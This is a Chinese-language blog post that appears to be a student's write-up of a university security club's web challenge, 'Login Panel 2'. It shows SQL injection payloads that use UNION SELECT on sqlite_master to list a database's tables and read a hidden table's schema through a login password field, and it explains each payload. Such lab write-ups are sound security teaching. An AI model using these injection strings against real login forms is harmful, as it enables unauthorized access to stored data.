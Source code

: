 ```yaml
---
title: 2023 Fall Bamboofox社課題解 Week 1
top_img: transparent
date: 2023-10-13 01:17:35
tags:
    - 資安
    - WebSecurity
    - Bamboofox社課題解
categories:
    - Bamboofox社課
cover: Bamboofox社課/bamboofox-2023-fall-week2/111611540.jpg
description: 2023 Fall Bamboofox社課題解 Week 2 (WebSecurity)
---
```


這次上課比上次難不少，希望下次還能夠聽懂

[本周題目](https://bamboofox.cs.nctu.edu.tw/courses/16/challenges)

## 1. [[Web] Login Panel 2 (other table)](https://bamboofox.cs.nctu.edu.tw/courses/16/challenges/270)

除了登入會接觸到的table，可能還有其他的table，要嘗試把其他table抓出來

這裡使用一連串SQL injection的技巧，把密碼設計成以下，使用[第一次社課](https://a40693651.github.io/Bamboofox%E7%A4%BE%E8%AA%B2/bamboofox-2023-fall-week1/)的第三題做變化:
```sql
' UNION SELECT 1,(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),3,4 --
```

其中這串指令，代表的是把所有的table名字抓出來:
```sql
SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

- group_concat()是把裡面的資料用','連接起來
- sqlite_master可以想成是所有系統資料的的唯讀總table，裡面也包含了table的資料，裡面有這些column:type,name,tbl_name,rootpage,sql，其中所有table的type都是'table'，table的name跟tbl_name都是放table的名字。所以找這兩個column取得tablea名字
- tbl_name NOT like 'sqlite_%'則是避免抓出名字是sqlite_...的table，基本上就是避免抓到系統自帶的table，而是存放有意義資料的table

這題的sqlite_master的示例圖:
![](/Bamboofox社課/bamboofox-2023-fall-week2//sqlite_master.png)


進去之後，可以在welcome的地方看到，這個資料庫裡面有兩個分別是Users跟S3cr3t_t4bl3，User顯然是登入用的前幾題已經打過了，所以現在要來看看S3cr3t_t4bl3有甚麼。

首先在密碼使用這個injection來取得S3cr3t_t4bl3有哪些column:
```sql
' UNION SELECT 1,(SELECT sql FROM sqlite_master WHERE type='table' AND sql NOT NULL AND name ='S3cr3t_t4bl3'),3,4 --
```
其中這一句代表的是，找出所有的column及他的型別等:
```sql
SELECT sql FROM sqlite_master WHERE type='table' AND sql NOT NULL AND name ='S3cr3t_t4bl3'
```
